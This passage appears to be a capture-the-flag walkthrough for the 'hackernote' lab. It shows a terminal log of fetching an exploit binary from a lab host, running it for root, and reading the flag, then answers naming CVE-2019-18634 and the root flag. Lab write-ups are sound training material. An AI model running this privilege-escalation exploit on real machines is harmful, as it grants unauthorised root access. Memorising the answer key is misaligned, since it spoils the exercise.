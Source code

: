 ```
Connecting to 10.8.19.103:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 841784 (822K) [application/octet-stream]
Saving to: ‘exploit’

exploit           100%[============>] 822.05K   284KB/s    in 2.9s    

2023-03-16 18:41:34 (284 KB/s) - ‘exploit’ saved [841784/841784]

james@hackernote:/tmp$ ./exploit
-bash: ./exploit: Permission denied
james@hackernote:/tmp$ chmod +x exploit
james@hackernote:/tmp$ ./exploit 
[sudo] password for james: 
Sorry, try again.
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
thm{af55ada6c2445446eb0606b5a2d3a4d2}


```

What is the CVE number for the exploit?

All caps, from 2019.

*CVE-2019-18634*

Find the exploit from [https://github.com/saleemrashid/](https://github.com/saleemrashid/)[](https://github.com/saleemrashid/) and download the files.

Git clone, or download as zip and extract.

Completed

Compile the exploit from Kali linux.

cd into the folder and run "make"

 Completed

SCP the exploit binary to the box.

 Completed

Run the exploit, get root.

 Completed

What is the root flag?

*thm{af55ada6c2445446eb0606b5a2d3a4d2}*

### Comments on realism and Further Reading
